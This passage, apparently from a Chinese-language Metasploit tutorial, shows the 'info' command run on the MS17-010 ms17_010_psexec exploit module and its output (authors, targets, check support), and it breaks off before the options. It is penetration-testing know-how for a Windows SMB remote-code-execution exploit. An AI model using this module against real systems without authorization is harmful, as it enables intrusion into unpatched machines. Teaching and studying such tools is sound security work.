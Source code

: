![](/img/截图_2019-07-26_23-01-45.png)
然后继续执行info，没错，又会弹出一大堆。

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > info
```

对，就是下面这一大堆。
```txt
       Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
     Module: exploit/windows/smb/ms17_010_psexec
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2017-03-14

Provided by:
  sleepya
  zerosum0x0
  Shadow Brokers
  Equation Group

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   PowerShell
  2   Native upload
  3   MOF upload

Check supported:
  Yes

Basic options:
```